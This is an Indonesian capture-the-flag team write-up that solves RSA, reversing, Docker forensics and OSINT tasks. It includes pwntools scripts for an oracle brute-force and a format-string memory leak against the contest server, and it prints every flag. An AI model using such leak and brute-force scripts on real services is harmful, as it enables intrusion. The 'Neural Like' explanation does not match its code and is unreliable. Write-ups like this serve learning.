# Contributors

| #   | Name                  | GitHub                                        |
| --- | --------------------- | --------------------------------------------- |
| 1   | Bagas Mukti Wibowo    | [@bl33dz](https://github.com/bl33dz)          |
| 2   | Nizam Abdullah        | [@abdullahnz](https://github.com/abdullahnz/) |
| 3   | Rafidhia Haikal Pasya | [@W-zrd](https://github.com/W-zrd/)           |

# List of Solved Problems

> _Beberapa soal tidak memiliki solving step & explanation karena kehabisan waktu pengerjaan writeup_

**Web Exploitation**

- Simply File

**Cryptography**

- [**Neural Like**](#neural-like)
- [**RSA But**](#rsa-but)

**Forensics**

- [**Docker**](#docker)
- Ranzone
- 404

**Reverse Engineering**

- [**binbin**](#woilah-cik-894-pts)
- [**Guess Me**](#guess-me)
- [**Guess Juga**](#guess-juga)

**Binary Exploitation**

- [**Easy**](#easy)

**OSINT**

- [**getit**](#getit)

# Cryptography

## Neural Like

Skema enkripsi yang digunakan adalah kombinasi RSA dan AES. Untuk menemukan flag, kita perlu mendecrypt pesan menggunakan ciphertext, public keys, dan init vector.

Berikut adalah langkah-langkah yang dilakukan untuk mendapatkan flag

1. Ciphertext adalah hasil enkripsi kunci AES menggunakan RSA dengan 3 public key yang berbeda.
2. Untuk mendecrypt ciphertext, gunakan Chinese Remainder Theorem (CRT) untuk menggabungkan ketiga ciphertext dan public keynya.
3. Hasil dari CRT akan memberikan nilai kunci AES yang dipangkat tiga.
4. Ambil akar kubiknya untuk mendapatkan kunci AES asli.
5. Decrypt pesan menggunakan AES dalam mode CBC untuk mendapatkan flag

```py
from Crypto.Util.number import long_to_bytes
import gmpy2


def fermat_factor(n):
   a = gmpy2.isqrt(n)
   b2 = a*a - n
   while not gmpy2.is_square(b2):
       a += 1
       b2 = a*a - n
   return a - gmpy2.isqrt(b2), a + gmpy2.isqrt(b2)

n = 16137683191820310878869074467935595895866425293478654373392241125665908634329070796576934138349116080339366432144659281080883658707735249601117248786028782982566346043722079648833155351477752764946216113467397096834294861532891472787672809649484134981191259738441311836612930367762697605775961668622571582619349907426952465513780247332875266844625087691260924135390764250111701515809446120291499318404177776195005227198068534242395666723755147128298391229213468845029961285851146131594588464143938281513184554635998020910090505194083134012592546674890085963540956322441499400925678804978928467131012058417031450201
e = 3
ct1 = 14230070742561114358197460196923312606263014813829421109905030908044415759191882552540618684777989687442727816457042537621183557321703273531263691955457570799480042831428672127252863638050725064162185236092160587699489439619363101490502837568129855145408959716770113618887212546816572889411830491453335444192715249847478096085374560922220896773469190891959702254575362954926649820945569684418191074988372784789266556524039058080721740857246440064588613468421257925443658351199981090967034582172895484680562928087692560665356190093834366801305067676548679604735072240551445613855333917355810203565389127483192500
ct2 = 1162058741139703411882718840299163445889014873921058212659181182272038019635990430279663609223145491845380854634114642769416565916807153162688171637949291999168289655939167770893532963349676739332219862753927985833192383312938176553498307854585408231561734581230982139377947236038641922931127380154047933642400331768310358442953398155463511614606398671621653326712682260612552949439015576143309340969906858395593363691840338727713937534086295591225589615606689859364142559551231357008606553918956479644637494592092304761371222474066693285327782960815466539823063183231321807843367025397546195321050460583001407


p, q = fermat_factor(n)
phi = (p-1)*(q-1)
d = gmpy2.invert(e, phi)

pt1 = pow(ct1, d, n)
pt2 = pow(ct2, d, n)

flag1 = long_to_bytes(pt1).decode()
flag2 = long_to_bytes(pt2).decode()
evolutions = ['alpha', 'sigma', 'ligma', 'omega', 'skibi', 'rizlr']

for evo in evolutions:
   if evo in flag1:
       flag = flag1.replace(evo, "beta")[:-12]
       break
   elif evo in flag2:
       flag = flag2.replace(evo, "beta")[:-12]
       break

print("Flag:", flag)
```

Script di atas mengimplementasikan Chinese Remainder Theorem untuk menggabungkan ciphertext, mengambil akar pangkat tiga untuk mendapatkan kunci AES, dan kemudian mendekripsi pesan menggunakan AES dalam mode CBC.

**Flag:**


## RSA But

Terdapat kelemahan pada algoritma tersebut karena menggunakan faktor prima yang sama (`p1`) untuk kedua modulus RSA (`n1` dan `n2`). Hal ini dapat dieksploitasi menggunakan GCD untuk memperoleh faktor prima p1.

Setelah mendapatkan p1, kita dapat menghitung faktor prima lainnya (`q1` dan `q2`), menghitung nilai `phi`, dan menggunakan invers modular untuk mendapatkan eksponen privat. Eksponen privat digunakan untuk mendecrypt `enc` dan `enc2` menggunakan operasi pemangkatan modular.

```py
from Crypto.Util.number import long_to_bytes, GCD
import rarfile
import io

n1 = 958063243522315863602980228037955671769990797256629437990136520949919392715270535143058204453052842876479924217000676185482708017465891716051197546594464054061006643192831060918746391183646069952028577069011415098295365509072406605794507109270838474046448474643683626300483465195021037918130751709753940801984635803850311487395761094540847676162920223377254448217340865515624854588455970468764964304560227428943352461717787401266035364801055875684031839828245181660321399931414802005591002438185964162297945654575267878194525676636567803978305206021687854904683796865440625263183687586173917410538763903140971751515124033879178456131947272447598894717139329589327670741588580747571532737671564788057532935963980435452247599928459652091218988935187776060661670008950536587836752435166139880845343335760502587373290791166512597184851035328625896843327004885008876112860766596260396525252169640888698394373375057831276530132862216704984373635417101345511150086299159524645274785432580066341943055880240129420138108609660111626217784725365760442789769236456653751702101247733759981816926659813056696040666460360885299347649229754475188419986469922978198925966812746956886844297597623154393647660099490900590745368398850614502011578178694247897023182793712706436868522113169560112370887231571867730809435728706767981027589668917276211983361520094624036698233859302635499673127440778446616488045307782436765923197321880528504432257119001866114404192495419398369119284447809476981366407245032376240647709046416498187195053567639809721731386657068515913181515316053402155768538997630608225973783968202708256427298094754970541990717813921931206366735625559238099592927721350238949897463225503245030473642489313691190479785028675885148310363865983805790226552545713907414723627861225211001090721786830675273856756425280520684028446787270682196710066524727245267083955029567151854104132202943471825398239279451151614147517008663503464247930593516508047187635842706529286424371258881413254491393489792833588501271134513162228677212216847394652660556603647345749964689230018207625547724446968091879549460176526332760206587359902943485078830897055471530008344617358418790225412798551054537550339520876068262728315223583083111069366734641954631425522645821008077246773860749132741321761535933225007884306848945667484909094233500357703705143515222077969513118161703205682141183832102960926466375732090530476067171246853192188582092326852235926535662442640225751383209462402664794433
n2 = 799230698463857977658446258592854369830320964373156232581820113513683492954138094823965712753822716679737042010617029467071065588266956636010644135480411848397422528719275214656547688825583027270248106139946006205346879908194319340502334917508468404085000834487829614407889234394749801902582139745721058920946403965490315727841444106124974732115503950877322217579547978284769669985840366890508908312883521844817371777573825348976224995685219647112942626369449581687690012384904223450408784509861559264105498951779080637378262137720450131473095227000597957761206894430961521171729886926455805141547541860660398295760439832800022171840475780591528610009470303321742264547570776843299072075934866717631552840288513962395252532579079710295403772678276787398717047653778464125551467001768225855923867500290471757430289707689354118115717135529575871347956490486270307550412911821870459407159917955727371191579886530436145665231115366975396520516884333430375413384966826866520784700930351754264033392848021838574296576424714526157033714700404323356766042509262945463678174723897627860966251330115232179071204343652372600832194927652409308634692580764256182903074774370911039342762777710628103408528916877177945231629840647534614996874059711419871511830354901940955604863164753845796708509422119665931320926785958942671211285069951246068182991030342588515883173892595517997272548659795147929110228735237072119860983708324482079740600533050851300336837040200808239765946975885074519378466255350201997801529720104065768336524610459679306073248162119082302035137847485513528166797472216282483623601878674120165333107403843830242702239745268233019820045984793610366786776447384552223729011293642699191667884641324978100673682157954143867369143654912166511724518497070725222570620845407183639210431250104467651383919561514868700002882477152726921612180491836899198526432838498490369193288805255573127824428086220957432672439017877768762101417321258254756229774785175170830521760956280392448934418618405524595010473847734319145805057074826870291319327741954521432766189196927529613942801818195705108993015712378896173902156118518114188486175608162015304846902270907323215179986951847268968799416012884714187914200685032442634835777291516385805519980743485842279316528667274376072767726369918266809011917946789766409855379258680066204664309192884619539359766127086448100979193719677823178455256895216487290681791873668455018416658115002919754099645100905427471571206335590303267603
enc1 = 663452579884958185356217203620327692810850496572040204085479882518195952009069804562135674975075767030556500265169613671109676058873596333809010775978737535997471739313082075593656807064742820310956767115006406087545336979370505144377492858919701873224915145837818456386164060530666302279988849922655299809777486902918831993056249027739431767816244573707527330400414546723050952583116461039510778047262014984167415558531698741279616641074843119013168061052976465812343511385122574810720618824701205989475876017912121900437879310287255753005183223721792606564579581271327628250057006893585223520823459496162668221502492911073117592458569189620192447734576772049494079303294888715311411514136524148280343138172576522612169348188719210941975174973507388942729967715923414555376176676366309965475725628235956160936433774705164746147098457463387942295704956319340923641209487837453209685847259879693212848268754784091084200388224779845369743060936149736687791934560671479540218674779220200552644490169148375536925587239909960302531412167750090154077767005992154070783301294603181711848527635586428456480774867068030310047315120453681813180192563626027911110214413523756191736217248120218108296166978090512996087477958577694198073966601447178685229722165066487939407382270242073090275926345997423618692464002882683113581516270100828148443596558591959774990261833636236506917563738376816094171717874087462692964630534679845867171874815985500541923643086855798799327352786659470398143890889316196387008981757566950335938843518465804498984039702981606311415682704370619874663693931312368239252765833990181257905545125823248527289342082406434108655836959906407528337684562744188856706072866101022391933403268597461021409276015887652075527477265534892635663837949323434614135895486672272496203524970294348320029513393167753110267746878330324239445471835070061129843011716437077056587523332516545327880715038060294680050483303364509572555468045256063970687141050754008610787858301236995644464417991362468566881236299099388390544669187210553980859468539910426092568424757256445546001436679140453409705301587233001086557073969002790720517388231993049271390638251587691752348485605502246126448837002567754058010608077004453906927113514928542811498491546678603102903802021819486330179640017495760658933320084333128528159544074826638636336955866931840660244758079790525033425472250216853404951266665759565233772959577217092567677634095229335666854899008499039066784260050160993133937
enc2 = 168677036896488363615216915334960280172000222420355676350751540046875831367998910832903262781444891340983566789892520618200198605795893122065972130292301624178818440055644549433738905716791719481988816594516298395626695929792989403435538029136529487976319067430460120109158850452148113659868414938428979313192708388084575650723493574315014339298235212705318129415778303512038486616511362352978184247105757739631129541423137784069995140783331401141094278680701006499245247240275854733747099503541101893804478525216868455383067439802922132581524832024658343587428641674444119409822121921263126015704347649596754211727349387570440598233892344719087990932681684987648080805324990605220159618491738958468595411299988697997702577143768404366737950239520004729192057557483930399775488164612987347699949689247179487538356617911431317445495636049946348365289203952569403447731212018165787994556090800615835347459606814331364155989429540188049730037993403012592151332772549406722460632950206678818731533733953133322139925581510544402809745204621878528738559069835461785792320995083956778924637376589523241772382499272425113729277018484740537141899278286753256809272242223831363119942357410103931509415870429699366422437298187428413328599414417542193641188058537429136995709634948715283219657649392010371202719195242305717023593652578841235205444384052397387179751281756278872398339985606033924861485144561660901743295745079927884723530313742479563912657498342653242054358976883823108150704548914276384877014883816790952882422739385436020899209830277103226897887060405230654188548244355649693536518805818812952547525107309523228816544549514431333459596665603365750924534515529103749208183735782895819009964900200158269863409345205587536867891976672031234808312500781261210877418197225388079966429508375595189845646239499509293383518420653625223386998865023427841492482455482719671380691756262965812259094824125705202477482803183163585911239630918602191944441520925352544702602941699897505671713058764601898980983918803537101440826314394623506761380152625395878825172787600846522590100400149743320045636595774562185303356946343778675241953080813372028441792800661541941498766574008787429618900844114638328356637831716808671537307484910241012666098365599469651967090562799314219866090679234169194335611480689082110897728812244095158678991550271506596058678163496676571133534020418682808314348328601496992311300651268430922409775301355492199383230250774519003255059897860533750899
e = 65537
pq = 1961696021366545776571343533609759463282075343942688948401009546299390594403634600155893220480253752046017823712646619427740336335908210887996651975019729219622294469545652380664938691742896082657296301089645523387064273037785756919929346454128372276105201595600786755655606738740130985811868936005886417293014281027692975648052617525139594528263866597466105788685068450194537478738807238233752357822275265487786066469511537003096160266278415165899555037196541650023093137757414166333103759745144913941980598579856730720436754818758952280585499857494914454291097949868628889125740754076062852020178207797165968713921104897762864704448066065143410907854732673567438728472952277567241547159818501405890741219269518411403058195765363606683885802674192274259026121663197478997385283772814574771506037190660652398388012712616741247300880773174515514637552028277408042207815953085465189308123012581331817829562065707747292860842199599571532204040660227185642218666095884229046473292908948576467778928145744934277245166840338333791847071074438539784927350907815367234179599503935781402429916442952570564760984648397073031478873666378099809383204246902698979763425750471029506665275294369833585703110466506482341849169357221707825963305052606

p1 = GCD(n1, n2)
q1 = n1 // p1
q2 = n2 // p1
assert q1 == pq - p1

phi1 = (p1 - 1) * (q1 - 1)
phi2 = (p1 - 1) * (q2 - 1)

d1 = pow(e, -1, phi1)
d2 = pow(e, -1, phi2)
m1 = pow(enc1, d1, n1)
m2 = pow(enc2, d2, n2)

# Convertto bytes
flag = long_to_bytes(m1) + long_to_bytes(m2)
flag_data = long_to_bytes(m1) + long_to_bytes(m2)
# print(flag_data)

# Save to RAR
rar_buffer = io.BytesIO(flag_data)
with open("output.rar", "wb") as file:
    file.write(rar_buffer.getvalue())

password = "y0kb1s4Y0k"

with rarfile.RarFile("output.rar") as rar:
    rar.setpassword(password)
    rar.extractall()

with open("flag.txt", "r") as file:
    flag = file.read()
print("Flag:", flag)
```



Output membentuk bilangan hex yang diawali dengan `\x52\x61\x72\x21` dimana prefix tersebut merupakan struktur yang merepresentasikan file RAR. Langkah terakhir adalah mencari password dari file flag.txt yang ternyata password-protected. Password ditemukan dengan mudah dengan command `strings output.rar`.


**Flag: FindITCTF{K4mu_k3r3N_b1S4_n2m1n_f1a9_nY4}**

# Reverse Engineering

## binbin

Diberikan sebuah file binary executable ELF yang akan meminta password.



Berdasarkan hasil disassembly, program akan membandingkan input user dengan password yang di-hardcode. Password tersebut disimpan dalam variabel `correct_password` menggunakan fungsi `verif`.

Jika password yang dimasukkan cocok dengan yang sudah diprogram, maka ia memanggil fungsi `get_flag`. Fungsi `get_flag` akan membuka file bernama "flag.txt" dan membaca isinya ke dalam buffer.



Jadi, cukup masukkan `G3rC3p#` sebagai passwordnya lalu flag akan didapatkan.

**Flag: FindITCTF{V3ry_s1mpl3_guy5}**

## Guess Me

Diberikan file binary. Berikut hasil disassembly-nya:


Berikut penjelasan singkat terkait hasil disassembly diatas:

- Input[0] + 1 == 0x6E
- Input[1] + 2 == 0x36
- Input[2] + 3 == 0x76
- (input[3] + 4) << 0x20 || (input[2] + 3) == 0x3500000076
- Input[4] + 5 == 0x6D

Jadi tinggal kurangkan saja setiap perbandingan input untuk mendapatkan value yang diharapkan.



**Flag: FindITCTF{01101101}**

## Guess Juga

Service akan mengecek apakah ada kandidat yang cocok antara input test user dan flag. Jika terdapat, maka akan mengoutputkan “pair” dan “fail” jika tidak terdapat kandidat. Solusi yang kami buat adalah mencari kandidat yang cocok sebanyak-banyaknya lalu mengurutkannya secara manual :). Berikut solver yang kami gunakan:

```py
#!/usr/bin/env python3

from pwn import *

HEXSTRING = b"0123456789abcdef"

HOST = '103.191.63.187'
PORT = 17013


GDBSCRIPT = '''
set resolve-heap-via-heuristic on
'''
def guess(amount, input_arr, next=True):
    r.sendlineafter(b": ", f"{amount}".encode())

    for i in range(amount):
        r.sendlineafter(b": ", input_arr[i])

    ret = r.recvline(0)

    r.sendlineafter(b": ", b"Y" if next else b"n")

    return ret == b"pure!"


def exploit(r):
    sets = [b'023', b'030', b'04d', b'05b', b'091', b'0de', b'13c', b'195', b'198', b'19d', b'1cb', b'219', b'232', b'233', b'253', b'261', b'26c', b'2c2', b'309', b'325', b'33f', b'36d', b'3c0', b'3cc', b'3f1', b'4d3', b'53c', b'5ba', b'613', b'6c0', b'6de', b'726', b'8e7', b'8fe', b'91c', b'923', b'951', b'98e', b'9d0', b'a92', b'b26', b'ba9', b'bb2', b'bbb', b'c04', b'c0d', b'c21', b'c8f', b'cbb', b'cc8', b'ccc', b'd03', b'd05', b'd36', b'de2', b'ded', b'e19', b'e2c', b'e72', b'ed0', b'f19', b'fe1']

    tmp = []
    for x in range(5):
        print('Round', x)
        for i in range(len(sets)):
            for c in HEXSTRING:
                ans = sets[i] + bytes([c])
                if guess(1, [ans]):
                    print(ans)
                    tmp.append(ans)
        sets = tmp

    r.interactive()

if __name__ == '__main__':
    r = remote(HOST, PORT)

    exploit(r)
```

**Flag: FindITCTF{0233f19d03091cbbb26c0ded05ba923253ccc8fe198e72613c04d36de2c21951}**

# Forensics

## Docker

Diberikan docker image. Kami menggunakan tools dive untuk explorasi. Didapatkan bahwa terdapat penghapusan flag berikut ini:



Lalu untuk mendapatkan flag, kami melakukan saving layer pada image. Dan melakukan unpack tar pada layer dimana flag masih disimpan. Pada gambar diatas dapat dilihat bahwa flag masih disimpan pada layer id 3d00…



Unpack layer yang menyimpan flag:



**Flag: FindITCTF{d0Cker_F0r3n51CS}**

# Binary Exploitation

## Easy

Simple format string attack, dengan sedikit bruteforce index start dari flag (karena males debugging :v). Berikut solver yang kami buat.

```py
#!/usr/bin/env python3

from pwn import *

PATH = './chall'

HOST = '103.191.63.187'
PORT = 7004

def exploit(r):
    for i in range(1, 20):
        r.sendlineafter(b": ", f"%{i}$p".encode())
        try:
            leak = p64(int(r.recvline(0).split()[1][:-1], 16))
            print(i, leak)
        except:
            pass
    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)
    # libc = elf.libc
    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})
    exploit(r)
```



**Flag: FindITCTF{L3aK\_!nF0rm4Ti0n_m3m0ry}**

# OSINT

## getit

Cari lokasi gambar menggunakan google image search ataupun GeoSpy.
**Flag: FindITCTF{Vilnius,Lithuania}**
